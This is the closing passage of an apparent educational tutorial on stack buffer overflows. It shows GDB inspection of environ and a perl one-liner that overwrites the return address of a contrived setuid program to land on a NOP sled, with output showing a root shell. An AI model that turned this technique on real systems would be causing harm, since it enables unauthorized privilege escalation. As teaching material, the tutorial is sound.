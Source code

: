 	>		auxv       comm             environ  gid_map  map_files  mounts      numa_maps  pagemap        root         setgroups  stat          task     wchan
	>		cgroup     coredump_filter  exe      io       maps       mountstats  oom_adj    patch_state    sched        smaps      statm         timers
	>
	> 		$ ll /proc/20083/environ
	> 		-r-------- 1 1001 1001 0 Apr 10 00:09 /proc/20083/environ
	>
	> In `GDB`, you can also do this in a running program:
	>
	>		(gdb) i variable environ
	>		All variables matching regular expression "environ":
	>
	>		Non-debugging symbols:
	>		0xf7faadc8  __environ
	>		0xf7faadc8  _environ
	>		0xf7faadc8  environ
	>
	> Or, to see all defined variables:
	>
	>		(gdb) i variables

	The addresses will be different when run in the `GDB` session, as you probably noticed.  Because of the `NOP` sled, this is alright.

## The Payoff

Now, let's smash the stack with our little payload.  As long as we overwrite the return address with some address on the `NOP` sled, it will slide down to the payoff, just as God intended.

Remember, Intel processors store bits in little-endian order, so the bytes must be written in reverse:

```bash
(32)test@trout:$ ./cat_pictures $(perl -e 'print "A"x22 . "\xc7\xdd\xff\xff"')

# whoami
root
# id
uid=0(root) gid=1001(test) groups=1001(test)
#
```

Whoa.

## Conclusion

Yes, the example used here is a bit contrived, but, as stated previously, the point of these posts is to demonstrate and learn how a buffer overlflow exploitation is done.  It's very important to understand this, and it teaches one about several different things, including memory management, that every programmer should at least have some familiarity.

Also, kinds of exploits happen all the time.  Just subscribe to any OS security mailing list, and you will quickly understand that this kind of exploit has not been solved, even though there have been measures taken to try and make them more difficult to successfully perform.
